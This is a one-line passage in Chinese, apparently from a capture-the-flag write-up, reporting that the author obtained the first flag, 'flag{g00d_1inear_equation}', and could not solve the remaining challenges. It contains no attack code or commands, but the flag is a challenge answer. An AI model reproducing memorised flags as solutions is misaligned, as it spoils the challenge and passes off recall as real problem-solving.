获得 Flag 1 `flag{g00d_1inear_equation}`。后面的不会了。
